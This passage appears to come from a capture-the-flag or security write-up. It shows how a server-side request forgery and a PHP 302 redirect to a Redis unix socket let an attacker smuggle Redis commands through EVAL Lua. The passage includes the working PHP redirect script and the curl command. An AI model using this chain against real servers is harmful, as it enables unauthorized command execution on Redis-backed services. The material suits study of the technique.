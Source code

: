 Moreover, when we answer in our `Location` header with a link to the unix socket, it is possible to specify a path on which the socket will interact: `http://unix:/var/run/redis/redis.sock:/test`, if we send the request back, we observe the following behavior:

![socat2](images/7.png)

Here we have a very interesting behavior, indeed, we control both the http method, but also what is passed behind, so we can send any redis command here since we are before the presence of the header "Host:"!

One last thing to fix is the presence of the string "HTTP/1.0", in fact, redis will trigger an error every time since it will be taken as a parameter of the command that we will pass. To overcome this problem, we will use the "EVAL" command of redis, which allows to execute LUA (in a sandbox).

The format of the commands that we will send will be :

```
"redis.call(<what we want>); return ARGV[1]; " 0
```

This returns ARGV[1], i.e. `HTTP/1.0`, so we can now test by trying to create a key "a" with the content "a", so we modify our PHP script:

```php
<?php
header("HTTP/1.1 302");
header('Location: http://unix:/var/run/redis/redis.sock:"redis.call(\'SET\',\'a\',\'a\'); return ARGV[1];" 0 ');
```

To send our orders, we will use the following bash command:

```sh
curl -X EVAL http://localhost:1337/assets/146.59.156.82:80/
```

And.... tadam:

![arbitrarycommand](images/8.png)
